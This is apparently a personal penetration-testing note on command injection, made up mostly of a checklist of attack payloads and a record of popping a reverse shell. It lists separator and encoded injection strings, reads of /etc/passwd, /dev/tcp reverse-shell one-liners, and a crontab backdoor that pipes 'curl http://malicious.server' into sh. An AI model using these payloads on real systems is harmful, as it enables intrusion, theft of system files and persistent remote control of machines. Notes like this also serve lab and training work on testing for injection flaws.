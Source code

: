 ### 1.`RHP` for the command injections such as `9000` did not work, only lower common ports worked such as `80`
`9000` continuously loading and crashing
![[Pasted image 20250113180339.png]]
`80` loading for a while then crashing 
![[Pasted image 20250113180402.png]]
but popped a reverse shell
![[Pasted image 20250113180420.png]]

### 2. Create an initial list of stuff to try
#### Initial things to try
If `user input` is incorporated into system commands without proper sanitization, test if you can execute arbitrary commands on the server.
Example: Inject payloads into input fields or parameters to execute system commands, such as:
`; ls` or `&& ls` to list files in the current directory.  [ ]
`; cat /etc/passwd` to read sensitive files.
`| whoami` to determine the user context of the application.
Using payloads like `$(id)` or `` `id` `` to execute commands in subshells.
Test using variations of common delimiters (`;`, `&&`, `||`, `|`, `$( )`, `` ` ` ``) depending on the command execution context.

##### Basic Command Injection Payloads
- [ ] 
- [x] `; ls` 
- [x]  `&& ls` 
- [x] `| whoami`
- [x] `; cat /etc/passwd`
- [x] `&& id`
- [x] `$(id)`
- [x] `` `id` ``
- [x] `; echo Hello`
- [x] `;which nc`

---

##### Encoded and Obfuscated Variants

1. URL encoding: `%3Bls` (`;ls`)
2. Base64 encoding: `$(echo aWQ= | base64 -d | sh)` (`id`)
3. Hex encoding: `$'\x69\x64'` (`id`)

---

##### Special Characters and Escaping

1. `\` Injection: `\` followed by the command
2. Single-quote bypass: `'; ls #`
3. Double-quote bypass: `"; ls #`
4. Multi-command chaining: `ls; cat /etc/passwd`

---

##### Environmental Variable and File Descriptors

1. `$(cat /etc/passwd)`
2. `${IFS}ls` (using the IFS variable)
3. `/bin/sh -c ls`
4. `0<&196;exec 196<>/dev/tcp/<IP>/<PORT>;sh <&196 >&196 2>&196`

---

##### Advanced Injection Techniques

1. `;$(id)`
2. `;perl -e 'print "Hacked"'`
3. `&$(python3 -c 'print("Hacked")')`
4. `| awk 'BEGIN {system("ls")}'`
5. `| bash -c 'echo Exploited'`

---

##### System Backdoor Techniques

1. Reverse shell payload: `bash -i >& /dev/tcp/<IP>/<PORT> 0>&1`
2. Write to crontab: `; echo '* * * * * /bin/bash -c "curl http://malicious.server | sh"' | crontab -`

### 3. Not all directories are writeable, I had to write to `/tmp` - this still didnt work

### 4. Identify all scripts languages on the machine to generate reverse shells, and use them all if none are working 

[[6.2 php method]]
[[6.1 python3 method]]
